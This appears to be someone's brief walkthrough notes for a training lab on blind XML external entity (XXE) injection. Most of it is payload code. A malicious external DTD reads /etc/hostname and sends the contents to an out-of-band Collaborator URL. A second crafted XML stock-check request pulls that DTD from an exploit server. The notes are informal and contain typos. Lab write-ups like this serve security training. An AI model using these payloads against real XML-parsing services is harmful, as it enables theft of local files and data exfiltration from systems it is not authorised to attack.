


# Exploiting blind XXE to exfiltrate data using a malicious external DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

---

### step 1

copy bupcollaborator
go to exploit url
eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com/?x=%file;'>">
%eval;
%exfil;
```



### step2

in reapeater
add this url
https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>
1</productId><storeId>1</storeId></stockCheck>
```

send request

now goto burpcollaborator


